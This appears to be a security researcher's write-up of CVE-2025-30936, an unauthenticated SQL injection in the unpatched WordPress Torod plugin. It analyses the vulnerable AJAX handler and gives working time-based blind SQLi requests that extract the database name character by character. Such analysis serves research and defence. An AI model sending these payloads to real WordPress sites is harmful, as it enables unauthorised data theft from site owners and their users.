



<!--more-->

The vulnerability occurs in the **Torod** plugin for WordPress. This could allow attackers to directly interact with your database, including but not limited to stealing information.

* **CVE ID**: [CVE-2025-30936](https://www.cve.org/CVERecord?id=CVE-2025-30936)
* **Product**: [WordPress Torod Plugin](https://wordpress.org/plugins/torod/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.9
* **Fixed in**: <= N/A
* **CVSS severity**:  High (9.3)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Torod**: v1.9

## Analysis

The core cause is that the application directly inserts data from a **POST** request into an SQL query without proper input validation or control mechanisms.

### Vulnerable Sink

This CVE has no patch available, so we cannot use a **diff tool** to compare the vulnerable and fixed versions.

> In WordPress, for SQLi to occur, the application must interact with the database through the global variable `$wpdb`. We can search for this keyword in the plugin directory to locate the sink.



👉 The data from `$_POST['country_id']` is directly inserted into the SQL query without proper validation. Using `sanitize_text_field()` only escapes the string, not fully sanitizing it. Therefore, the SQL Injection vulnerability can occur.

* Source: `$_POST['country_id']`
* Sink: `$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")`

### How it works?

The vulnerability lies in the `get_regions_and_cities` function of the `ajaxyk` class within the **inc/ajaxyk.php** file. To determine where it’s called, we search for the keyword `get_regions_and_cities` within the plugin directory.



👉 `get_regions_and_cities` is registered as a callback for two action hooks via the `add_action` function in the `ajaxyk` constructor.

* `wp_ajax_get_regions_and_cities`

  * Written in the format `wp_ajax_{$action}`
  * Requires user authentication

* `wp_ajax_nopriv_get_regions_and_cities`

  * Written in the format `wp_ajax_nopriv_{$action}`
  * Does not require authentication

Since this is an **unauthenticated** vulnerability, we only focus on the `wp_ajax_nopriv_get_regions_and_cities` hook.

Thus, when a **POST** request is sent to `/wp-admin/admin-ajax.php` with parameters:

```http
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here
```

* The `get_regions_and_cities` callback is triggered.
* `country_id` is taken directly from the request and injected into the SQL query.
* The query executes with the malicious payload.

## Exploit

### Detecting SQLi

Send a **POST request** containing the SQLi payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

The resulting query becomes:

```sql
SELECT * FROM wp_torod_regions WHERE country_id = (SELECT 1 FROM (SELECT SLEEP(5))a)
```



👉 Based on the response time => the payload works.

**Techniques usable when the table is empty:**

* **UNION**: Since it does not depend on existing data in the table, but requires knowing the number of columns.
* **Subquery**:

  * **Subquery in WHERE clause**: MySQL may optimize and skip the subquery if the result can be determined early. If the table has no data, MySQL might not execute `SLEEP()`.
  * **Subquery in FROM clause**: The subquery is treated as a temporary table. MySQL must execute it first to build the temp table before executing the main query.


### Get the First Letter of Database Name

The prerequisite to **dump all data** is to retrieve at least one character of the database name. Once that is achieved, the rest can be enumerated.

Send a request with the **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Here, `SUBSTRING()` extracts the first character of the **database name**, and `IF()` triggers `SLEEP(5)` if that character is `0x77` ('w').

We use the hex encoding `0x77` for `w` because `country_id` is taken from a **POST** request, which is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) in WordPress and by `sanitize_text_field`.

👉 Based on response time => the first character is confirmed to be `w`.

## Conclusion

The **CVE-2025-30936** vulnerability in the **WordPress Torod** plugin (version ≤ 1.9) stems from directly inserting user input into an SQL query without proper validation, leading to a classic SQL Injection flaw.

No official patch has been released for this vulnerability yet.

**Key takeaways**:

* Always validate and sanitize user input properly.
* Always use `$wpdb->prepare()` when interacting with the database in WordPress to prevent SQL Injection.
* Keep plugins up-to-date and perform regular security assessments to avoid being targeted.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Torod Plugin <= 1.9 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/torod/vulnerability/wordpress-torod-1-9-sql-injection-vulnerability?_s_id=cve)
